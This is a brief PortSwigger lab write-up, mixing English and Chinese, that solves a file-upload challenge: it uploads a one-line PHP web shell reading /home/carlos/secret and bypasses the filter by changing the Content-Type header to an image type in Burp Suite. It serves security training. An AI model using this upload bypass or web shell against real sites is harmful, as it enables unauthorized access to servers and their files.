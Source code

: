 # Web shell upload via Content-Type restriction bypass

## Information
---

- [PortSwigger - Lab: Web shell upload via Content-Type restriction bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)

This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 

## Solution
---

1. 以 **wiener:peter** 進行登入。

2. 上傳以下腳本。
    ```php
    <?php echo file_get_contents('/home/carlos/secret'); ?>
    ```

3. 利用 **Burp Suite** 攔截 Request。

4. 更改 Content-Type 為 **image/jpeg** 或 **image/png**。

5. 瀏覽 **avatar** 獲取腳本執行結果。

6. 提交答案。